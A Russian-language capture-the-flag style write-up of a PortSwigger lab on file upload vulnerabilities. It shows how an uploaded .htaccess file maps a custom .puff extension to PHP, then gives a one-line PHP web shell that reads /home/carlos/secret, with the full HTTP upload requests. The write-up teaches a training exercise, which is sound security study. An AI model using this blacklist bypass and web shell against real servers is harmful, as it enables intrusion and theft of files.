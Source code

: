 ```yaml
---
title: "Web shell upload via extension blacklist bypass"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/
```

## Solution

Воду в аккаунт, чтобы получить доступ к форме загрузки файлов.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/1.png){: height="200" .align-center}

Попробую загрузить `php` файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/2.png){: height="200" .align-center}

Не удивительно, так как в названии лабы фигурует `blacklist bypass`. Значит нужно найти такое расширение, что не в ходит в этот черный список. Для этого воспользуюсь [вот этой репой](https://github.com/mathiasbynens/small/blob/master/.htaccess) на github. Ее я позаимствовал из [этого поста](https://t.me/hahacking/78). Начну попорядку с `.htaccess`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/3.png){: height="200" .align-center}

Получилось.

`.htaccess` — это конфигурационный файл веб-сервера Apache, позволяющий управлять работой веб-сервера и настройками сайта с помощью различных параметров (директив) без изменения основного конфигурационного файла веб-сервера. С помощью `AddType` я могу попробовать добавить обработку файлов с кастомным расширенем, как `php`. Попробую добавить такую функцию для файлов с расширением `.puff`:

```ы
AddType application/x-httpd-php .puff
```

Для его загрузки я использовал следующий запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 503
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .puff

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

Поле `Content-Type` я заменил на `text/plain`, а имя файла `filename` на `.htaccess`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/4.png){: height="200" .align-center}

Файл успешно сохранен, значит можно протестировать `.puff` файл. Для этого переименую `php` файл в `exploti.puff` и загружу его на сайт, заменив `Content-Type` на `application/x-httpd-php`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 537
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename="exploit.puff"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/5.png){: height="200" .align-center}

Время проверить свою аватарку)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/6.png){: height="200" .align-center}

Сдам токен `7GvfAzPQ9moCc5oEgdtXqldiB0LxX2Kr` в форму проверки для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/7.png){: height="200" .align-center}
